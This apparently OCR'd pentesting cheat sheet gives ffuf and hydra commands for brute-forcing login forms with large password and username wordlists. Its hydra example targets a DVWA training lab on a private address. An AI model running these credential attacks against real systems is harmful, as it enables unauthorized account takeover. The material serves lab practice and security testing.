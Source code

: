 **ffuf**
- Save request “copy to file” from burp - Replace “password” param with “FUZZ”
- Run with no filter, determine invalid response size, add `fs <SIZE>` , re-run command
```Python
ffuf -request r.txt -fs <SIZE> -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt:FUZZ
```
**fuff - fuzz all permutations of multiple parameters (clusterbomb)**
- Modify the request with two keywords, append them to the proper wordlists
```Python
ffuf -request r.txt -request-proto http -mode clusterbomb -w /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt:FUZZPASS -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSER
```
**hydra**
```Python
hydra -V -L ../wordlists/users.txt -P ../wordlists/pass.txt 192.168.187.133 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie\: PHPSESSID=XXXXX; security=low"
```